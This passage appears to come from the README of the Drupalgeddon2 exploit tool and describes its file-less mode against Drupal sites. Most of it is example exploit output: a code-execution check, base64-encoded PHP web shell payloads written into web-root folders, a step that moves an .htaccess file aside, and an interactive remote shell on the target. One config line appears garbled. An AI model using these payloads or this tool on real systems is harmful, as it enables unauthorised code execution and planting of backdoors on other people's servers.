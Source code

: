 

#### Direct Commands / Non PHP Shell (aka File-Less Method)

If either you do not want to even try and write a PHP web shell to the web server, edit the file as shown _(it will fall back if it can't find a writeable location anyway)_:

```ruby
try_phpshelltryphpshell = false
```

**Example**

```bash
$ ./drupalgeddon2.rb http://localhost/drupal-nonwrite/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://localhost/drupal-nonwrite/
--------------------------------------------------------------------------------
[!] MISSING: http://localhost/drupal-nonwrite/CHANGELOG.txt    (HTTP Response: 404)
[+] Found  : http://localhost/drupal-nonwrite/core/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal?: v8.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[i] Payload: echo HYCBAIET
[+] Result : HYCBAIET
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Writing To Web Root (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[!] Target is NOT exploitable for some reason [2] (HTTP Response: 404)...    Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root (sites/default/)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[!] Target is NOT exploitable for some reason [2] (HTTP Response: 404)...    Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root (sites/default/files/)
[*] Moving : ./sites/default/files/.htaccess
[i] Payload: mv -f sites/default/files/.htaccess sites/default/files/.htaccess-bak; echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/files/s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[!] Target is NOT exploitable for some reason [1] (HTTP Response: 403)...    May not be able to execute PHP from here?
[!] FAILED: Couldn't find writeable web path
--------------------------------------------------------------------------------
[*] Dropping back to direct commands
drupalgeddon2>> lsb_release -a
Distributor ID:	Ubuntu
Description:	Ubuntu 14.04.5 LTS
Release:	14.04
Codename:	trusty
drupalgeddon2>>
```

